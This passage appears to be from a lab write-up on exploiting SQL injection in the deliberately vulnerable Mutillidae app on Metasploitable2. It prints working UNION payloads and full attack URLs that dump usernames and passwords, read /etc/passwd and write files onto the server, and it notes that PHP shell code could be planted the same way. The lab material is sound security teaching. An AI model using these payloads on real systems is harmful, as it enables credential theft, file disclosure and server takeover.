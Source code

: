 In MySQL, the table “information_schema.columns” gives data about columns in tables. One of the most useful columns to extract is called “column_name.”

Ex: (union select 1,colunm_name,null,null,5 from information_schema.columns where table_name = ‘accounts’).

Here we are trying to extract column names from the “accounts” table.

![280078876-a09a8d7e-9aa3-42e2-9cf3-90fe2fe3b0b6](https://github.com/Gopikakarthik/sqlinjection/assets/121235427/7affc103-dcbd-4b5b-ac00-3573df1f5de3)

The column names of the accounts is displayed below for the following url:

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,column_name,null,null,5%20from%20information_schema.columns%20where%20table_name=%27accounts%27%23&password=&user-info-php-submit-button=View+Account+Details

![280078921-719f9890-332b-4b29-ab3a-1e4905bd530a](https://github.com/Gopikakarthik/sqlinjection/assets/121235427/43eaa220-3d91-4dfc-9333-926b82ddea90)

Once we discovered all available column names, we can extract information from them by just adding those column names in our query sentence.

Ex: (union select 1,username,password,is_admin,5 from accounts).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,username,password,is_admin,5%20from%20accounts%23&password=&user-info-php-submit-button=View+Account+Details

![280078959-6c7dfae4-7adb-47ba-a97d-f4b5bd6e7ec5](https://github.com/Gopikakarthik/sqlinjection/assets/121235427/c5339997-0d1d-4e8f-9ead-2cf6dd551228)

## Reading and writing files on the web-server

We can use the “LOAD_FILE()” operator to peruse the contents of any file contained within the web-server. We will typically check for the “/etc/password” file to see if we get lucky and scoop usernames and passwords to possible use in brute force attacks later.

Ex: (union select null,load_file(‘/etc/passwd’),null,null,null).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%20null,load_file(%27/etc/passwd%27),null,null,null%23&password=&user-info-php-submit-button=View+Account+Details 
![280076613-3f7f345e-5396-474c-8274-7dccdd8ac856](https://github.com/Gopikakarthik/sqlinjection/assets/121235427/a3de17fe-7c1f-49b7-bfc9-1f1eb81503b9)

the “INTO_OUTFILE()” operator for all that they offer and attempt to root the objective server by transferring a shell-code through SQL infusion. we will write a “Hello World!” sentence and output it in the “/tmp/” directory as a “hello.txt” file. This “Hello World!” sentence can be substituted with any PHP shell-code that you want to execute in the target server. Ex: (union select null,’Hello World!’,null,null,null into outfile ‘/tmp/hello.txt’).

## RESULT:
The SQL Injection vulnerability is successfully exploited using the Multidae web application in Metasploitable2.
